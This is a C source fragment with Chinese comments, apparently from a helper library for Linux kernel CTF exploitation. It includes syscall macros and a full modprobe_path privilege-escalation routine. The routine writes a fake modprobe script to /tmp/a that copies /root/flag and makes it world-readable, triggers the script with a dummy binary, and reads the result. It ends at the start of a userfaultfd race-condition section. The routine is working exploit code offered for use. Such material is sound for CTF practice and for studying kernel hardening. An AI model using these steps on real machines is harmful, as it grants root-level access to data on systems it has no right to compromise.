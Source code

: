 ```c
        exit(EXIT_FAILURE); \
    } \
}
#define offsetof(TYPE, MEMBER) \
    ((size_t) &((TYPE*)0)->MEMBER)
#define __X32_SYSCALL_BIT   0x40000000
#define syscall_x32(nr, args...) \
    syscall((nr) + __X32_SYSCALL_BIT, ##args)
/* 在/usr/include/x86_64-linux-gnu/bits/syscall.h中
 * 查看x64下的系统调用信息
 */
#define syscall_x64(nr, args...) \
    syscall((nr), ##args)


/* modprobe_path提权
 * 条件:
 *      1. 覆写`modprobe_path`符号的内容从`/sbin/modprobe`
 * 更改为 `/tmp/a`, 即 *(modprobe_path) = 0x612f706d742f
 *
 *
 * 参考:
 * https://www.anquanke.com/post/id/232545#h3-6
 */
void modprobe_exp()
{
    printf("[modprobe_exp] set fake modprobe content\n");
    fflush(stdout);
    system("echo '#!/bin/sh' > /tmp/a");
    system("echo 'cp /root/flag /tmp/flag' >> /tmp/a");
    system("echo 'chmod 777 /tmp/flag' >> /tmp/a");


    printf("[modprobe_exp] set fake modprobe permission\n");
    fflush(stdout);
    system("chmod +x /tmp/a");


    printf("[modprobe_exp] set unknown file content\n");
    fflush(stdout);
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");


    printf("[modprobe_exp] set unknown file permission\n");
    fflush(stdout);
    system("chmod +x /tmp/dummy");


    printf("[modprobe_exp] run unknown file\n");
    fflush(stdout);
    system("/tmp/dummy");


    printf("[modprobe_exp] read the flag\n");
    fflush(stdout);
    system("cat /tmp/flag");
}

/* userfaultfd条件竞争
 * 条件:
 *      1. userfaultfd机制被启用
 *      2. userfaultfd保护机制被关闭，即
 * /proc/sys/vm/unprivileged_userfaultfd 被设置为1
```